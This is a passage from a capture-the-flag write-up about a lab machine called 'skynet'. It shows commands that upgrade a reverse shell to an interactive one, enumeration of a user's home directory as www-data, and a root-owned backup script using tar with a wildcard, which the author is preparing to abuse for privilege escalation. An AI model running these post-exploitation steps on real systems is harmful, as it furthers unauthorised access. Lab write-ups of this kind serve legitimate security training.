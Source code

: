 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

Now that we have a stable shell it is time to enumerate. We see that we are in the root of the file system running as the user `www-data`, I went to the `/home` directory to see if we access anything.

```
www-data@skynet:/home/milesdyson$ ls -al

total 36
drwxr-xr-x 5 milesdyson milesdyson 4096 Sep 17  2019 .
drwxr-xr-x 3 root       root       4096 Sep 17  2019 ..
lrwxrwxrwx 1 root       root          9 Sep 17  2019 .bash_history -> /dev/null
-rw-r--r-- 1 milesdyson milesdyson  220 Sep 17  2019 .bash_logout
-rw-r--r-- 1 milesdyson milesdyson 3771 Sep 17  2019 .bashrc
-rw-r--r-- 1 milesdyson milesdyson  655 Sep 17  2019 .profile
drwxr-xr-x 2 root       root       4096 Sep 17  2019 backups
drwx------ 3 milesdyson milesdyson 4096 Sep 17  2019 mail
drwxr-xr-x 3 milesdyson milesdyson 4096 Sep 17  2019 share
-rw-r--r-- 1 milesdyson milesdyson   33 Sep 17  2019 user.txt
```

Looks like we have access to `milesdyson`'s home directory, inside we see the `user.txt` that we can submit as well as his smb share. The thing that sticks out to me the most is the folder owned by root with the name `backups`.

```
www-data@skynet:/home/milesdyson/backups$ ls -al

total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 May 24 15:28 backup.tgz
```

Inside of this folder we see a bash script as well as a tar achive file, lets cat out the file.

```
www-data@skynet:/home/milesdyson/backups$ cat backup.sh 

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

The program is going to the `/var/www/html` directory, *a directory that we have access to* and archiving all of the files by using the wildcard `*` inside of the directory to this `backup.tgz` file using `tar`. 

Since this is a backup script I assume that it will be running automatically in some way, so lets check out `/etc/crontab`
